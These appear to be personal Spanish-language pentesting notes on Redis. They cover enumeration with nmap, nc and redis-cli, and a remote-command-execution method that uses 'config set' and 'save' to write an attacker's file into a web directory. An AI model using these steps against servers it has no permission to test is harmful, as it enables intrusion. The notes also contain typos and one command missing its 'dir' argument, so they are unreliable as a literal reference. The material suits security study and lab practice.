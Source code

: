 ----
- Tags: #teoria #practica #basico 
----

# Redis

### **Redis** es un motor de base de datos en memoria, basado en el almacenamiento en trablas de hashes pero que opcionalmente puede ser usada com una base de datos durable o persistente.

### Es importante tener en cuenta que redis es una base de datos NoSQL que almacena datos en uan estructura de clave-valor. La clave (key) es un identificador único que se utiliza para acceder a los datos y el valro es cualqueir tipo de dato, como cadenas, listas, conjuntos, hash maps, etc.

-----

# Enumeration 

### Redis puede escanearse de manera manula o automatizada...

- ## Automatica
`
```bash
nmap --script redis-info -sV -p 6379 {ip}
```

- ## Manual 

### Para conectarnos a redis podemos hacer uso de **nc** o **redis-cli**. 

```bash
nc -vn {ip} 6379

redis-cli -h {ip} # sudo apt-get install redis-tools
```

### Comandos basicos para enumerar: 

```bash
INFO 
# [...Listar información en general así como de las base de datos en memoria...]
clien list 
# [...Listar los usuarios conectados...]
CONFIG GET * 
# [...Obtener las configuraciones...]
```

### En caso de haber base de datos, podríamos intentar listar estas. 

```bash
SELECT {number}
# [...Seleccionar una base de datos...]
KEYS *
# [...Obtener las keys de la bade de datos...]
GET {name_of_key}
# [...Seleccionar el valor de las keys...]
```

-----

# [[RCE - (Remote Command Execution)]] vía Redis

### Muchas veces una web la cual acepta php esta vinculada con redis, de maner que se nos podría ocurrir intentar depostiar un archivo especifico en una ruta en particular. 

### Es **IMPORTANTE** tener en cuenta que todo archvo que subamos debe empezar con 3 saltos de linea ("\\n\\n\\n") y finalizar con 2 ("\\n\\n"). 

```bash
cat {file_to_upload} | redis-cli -h {ip} -x set {identifier_name}

redis-cli -h {ip} config set {path_to_upload_the_file}

redis-cli -h {ip} config set dbfilename "{filename}"

redis-cli -h {ip} save

```